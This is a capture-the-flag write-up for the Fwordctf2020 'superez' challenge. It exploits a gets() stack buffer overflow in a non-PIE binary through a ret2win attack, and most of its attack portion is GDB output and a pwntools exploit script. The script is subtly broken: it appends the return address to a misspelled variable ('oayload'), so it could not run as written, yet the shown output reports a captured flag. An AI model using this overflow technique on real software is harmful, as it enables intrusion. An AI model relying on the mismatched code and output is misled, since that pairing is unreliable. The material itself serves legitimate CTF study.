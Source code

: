 # Fwordctf2020 Superez

Let's begin by inspecting the file, and its protections:

```
mfumega@pwn-boy:/pwn-boy$ file ./superez
./superez: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7ff6ed31455f3956d093833c02d0c0320253657e, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec ./superez
[*] '/pwn-boy/superez'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
We are dealing with a 64 bites binary, little endian, and from this output we know that:
- We can overwrite some sections of the Global Offset Table (GOT)
- The stack is Not-Executable. So we can't inject shellcode and run it on the stack

Let's run it. 

```
mfumega@pwn-boy:/pwn-boy$ ./superez
Welcome to FwordxKahla Platform, I'll miss Boruto episode because of the CTF :angry:
So solve me pleasee

Enter Your password to continue:
you typed 'AAAA', Good Bye!
```

Ok, after opening the binary with Ghidra, there is a main function. 

It calls a function `print_header()` that prints on screen the text we just saw. After initializing a few variables, we see the following code snipet:

```
    printf("Enter Your password to continue: ");
    gets(local_a8);
    printf("you typed \'%s\', Good Bye!\n",local_a8);
```

It's capturing our input with the insecure function `gets()`, and it stores that on the "local_a8" variable.

From the first lines of the main function, where the variables are initialized, we know that "local_a8" is a 32 bytes variable. So, we have a stack buffer overflow here.

If we keep looking at the binary on Ghidra, we'll find  a function called `rasengan`, which is opening the "flag.txt" file. So, let's try to solve this challenge as a regular ret2win. Where we redirect the program flow to a desired address we of our choice. 

Let's run the binary on GDB, and take a look at how the stack is after `gets()`is called. 

```
     0x400ae6 <main+00ec>      call   0x4007c0 <gets@plt>
 →   0x400aeb <main+00f1>      lea    rax, [rbp-0xa0]
     0x400af2 <main+00f8>      mov    rsi, rax
     0x400af5 <main+00fb>      lea    rdi, [rip+0x1d6]        # 0x400cd2
     0x400afc <main+0102>      mov    eax, 0x0
     0x400b01 <main+0107>      call   0x400790 <printf@plt>
     0x400b06 <main+010c>      mov    rax, QWORD PTR [rip+0x2015a3]        # 0x6020b0 <stdin@@GLIBC_2.2.5>
────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "superez", stopped 0x400aeb in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400aeb → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/25gx $rsp
0x7fffffffdc70: 0x0000000041414141      0x0000000000000000
0x7fffffffdc80: 0x0000000000000000      0x00007ffff7fe48e0
0x7fffffffdc90: 0x0000000500004500      0x00008a73000000bf
0x7fffffffdca0: 0x010004157f1c0300      0x170f12001a131100
0x7fffffffdcb0: 0x0000000000000016      0x0000000000000000
0x7fffffffdcc0: 0x0000000f00001000      0x00007fff0000000f
0x7fffffffdcd0: 0x0000000500004500      0x00008a3b000000bf
0x7fffffffdce0: 0x010004157f1c0300      0x170f12001a131100
0x7fffffffdcf0: 0x0000000000000016      0x0000000000000000
0x7fffffffdd00: 0x0000000f00001000      0x000000000000000f
0x7fffffffdd10: 0x0000000000000001      0x00007ffff7da8d90
0x7fffffffdd20: 0x0000000000000000      0x00000000004009fa
0x7fffffffdd30: 0x00000001ffffde10
gef➤
```

We set a breakpoint at 0x400aeb. We run the program, and input 'AAAA'. We continue the execution, hit the breakpoint, and inspect the stack and we can see our input '41414141'. 

By looking at the stack this way, sometimes we may be able to recognize where the program will jump after, because well see an address that looks like the base one (0x400aeb in this case), but to be sure, we can just continue the execution up to the RET instruction on the function we are in.

```
 →   0x400b47 <main+014d>      ret
   ↳  0x7ffff7da8d90 <__libc_start_call_main+0080> mov    edi, eax
```
Here we see that the program is trying the jump to the address 0x7ffff7da8d90. And when we inspected the stack we saw this same value at 0x7fffffffdd18. 

```
gef➤  p *0x7fffffffdd18
$2 = 0xf7da8d90
```

So, if we overwrite that value with the address of the function `rasengan` which is
```
gef➤  p rasengan
$7 = {<text variable, no debug info>} 0x400917 <rasengan>
gef➤
```

We should get the flag. If we do some math, we can substract the address at where out input starts to the address where the return address is, and we can get the offset. `(0x7fffffffdd18 - 0x7fffffffdc70) = 168`

Let's build the exploit.

```
#!/usr/bin/env python3
from pwn import *
p = process('/pwn-boy/superez', stdin=PTY, stdout=PTY)

p.recvuntil('continue: ')
offset = 168

payload = b'A' * offset 
oayload += p64(0x400918) 

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

We run it, and we got the flag!
```
mfumega@pwn-boy:/pwn-boy$ ./do.py
[+] Starting local process '/pwn-boy/superez': pid 479859
/pwn-boy/./do.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil('continue: ')
[+] Receiving all data: Done (319B)
[*] Process '/pwn-boy/superez' stopped with exit code -11 (SIGSEGV) (pid 479859)
you typed 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18 @', Good Bye!
local{mock_flag}
```


